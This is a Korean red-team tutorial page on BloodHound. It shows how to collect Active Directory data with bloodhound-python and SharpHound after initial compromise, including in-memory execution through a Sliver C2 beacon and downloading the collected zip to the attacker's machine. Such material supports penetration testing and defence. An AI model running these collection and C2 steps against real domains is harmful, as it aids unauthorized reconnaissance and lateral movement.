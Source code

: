 # 블러드하운드

![이미지 출처: https://bloodhound.readthedocs.io/en/latest/data-analysis/bloodhound-gui.html](<../.gitbook/assets/image (72).png>)

[블러드하운드(BloodHound)](https://github.com/BloodHoundAD/BloodHound)는 액티브 디렉토리의 LDAP 데이터를 수집하고 이를 그래프 자료구조 형식으로 보여주는 툴이다. 수만명의 도메인 유저 계정, 수십만대의 호스트들의 관계와 정보를 일일히 수동으로 정리하는 것은 불가능에 가깝다. 블러드하운드는 이를 도와주기 위해서 만들어진 툴이다.

블러드하운드는 총 3가지 툴로 운영된다.

1. 블러드하운드 Data Ingestor - 도메인 컨트롤러에 접근에 LDAP 데이터를 추출한 뒤, 도메인 유저, 호스트, 그룹, 세션 등의 데이터를 json 형태로 저장하는 툴.
2. Neo4J - 블러드 하운드의 백엔드 데이터베이스. Ingestor가 추출한 json 파일을 neo4j 데이터베이스에 불러온 뒤 블러드하운드 GUI에서 사용할 수 있게된다.
3. 블러드하운드 GUI - 백엔드 데이터베이스의 데이터를 그래프 자료구조의 형식으로 보여주는 프론트엔드 GUI 툴.

### 설치

블러드하운드 설치는 [공식 문서](https://github.com/BloodHoundAD/BloodHound)를 참고한다.

```
# 칼리 리눅스 
apt update -y 
apt install bloodhound -y 
neo4j console 

# http://localhost:7474 방문 후 neo4j:neo4j 를 이용해 로그인. 
# 이후, 비밀번호를 바꿔줌.

# 블러드하운드 실행 후 neo4j:<바뀐-비밀번호>로 로그인 
bloodhound 
```

![블러드하운드 GUI 로그인 화면](<../.gitbook/assets/image (97).png>)

### 사용 - 데이터 Ingestor

블러드하운드를 이용하기 위해선 타겟 도메인의 액티브 디렉토리 데이터를 Ingestor를 이용해 추출해야한다. 액티브 디렉토리 데이터를 추출하기 위해서는 도메인 유저의 계정정보나 세션이 필요하다. 초기 침투가 성공적이였다면 대부분 도메인 유저 (ex. 회계 부서의 김인턴) 의 문맥을 갖게된다.

데이터 Ingestor는 다양한 액티브 디렉토리의 정보들을 빼내올 수 있다. 공식문서의 `-c, Collection method`를 참고한다.

리눅스에서는 [`bloodhound-python`](https://github.com/fox-it/BloodHound.py) 툴을, 윈도우에서는 [`SharpHound`](https://github.com/BloodHoundAD/SharpHound) 툴을 이용한다.

{% tabs %}
{% tab title="리눅스" %}
리눅스에서는 bloodhound-python을 이용한다.

```
# 설치 
pip3 install bloodhound 

# 실행 
bloodhound-python -c DCOnly -u <user> -p <pass> -d <domain> -dc <dc-fqdn>
bloodhound-python -c DCOnly -u low -p 'Password123!' -d choi.local -dc dc01.choi.local
```
{% endtab %}

{% tab title="윈도우 - 콘솔" %}
콘솔을 갖고 있는 경우 SharpHound를 이용한다. SharpHound는 .NET 어셈블리이기 때문에 직접 실행하거나 파워쉘에서 불러온 후 메모리상에서 실행할 수 있다.

```
# Sharphound.exe 실행 
./SharpHound.exe -c <method> -d <domain>
./SharpHound.exe -c All -d choi.local
```
{% endtab %}

{% tab title="윈도우 - 비컨" %}
SharpHound는 .NET 어셈블리이기 때문에 비컨의 메모리상에서 execute-assembly 형식으로 사용할 수 있다.

```
# SharpHound Release를 다운받거나, 깃-클론 뒤 컴파일한다. 
wget https://github.com/BloodHoundAD/SharpHound/releases/download/v1.0.3/SharpHound-v1.0.3.zip . 
unzip SharpHound-v1.0.3.zip

# 슬리버의 execute-assembly를 이용해 메모리상에서 SharpHound를 실행한다. 
sliver> use <beacon-name>
sliver> execute-assembly /root/redteam/tools/SharpHound.exe "-c All -d choi.local"

# 다운로드 할 때는 백슬래쉬 이스케이프를 해주거나 큰 따옴표를 이용한다. 
sliver> download <원격-파일경로> <로컬-파일경로>
sliver> download "C:\Users\Administrator\Downloads\20220613235339_BloodHound.zip" /root/redteam/bh.zip
```
{% endtab %}
{% endtabs %}

### 사용 - 블러드하운드 GUI

다운 받은 zip파일을 블러드하운드 GUI에다가 드래그 & 드롭 하면 된다.

![](<../.gitbook/assets/image (121).png>)

이후 Analysis에서 미리 준비된 쿼리를 이용하거나 하단의 `Raw Query` 를 통해 직접 Cypher Query를 사용한다.

### 레퍼런스

{% embed url="https://bloodhound.readthedocs.io/en/latest/" %}

{% embed url="https://github.com/BloodHoundAD/BloodHound" %}

{% embed url="https://github.com/BloodHoundAD/SharpHound" %}

{% embed url="https://github.com/fox-it/BloodHound.py" %}
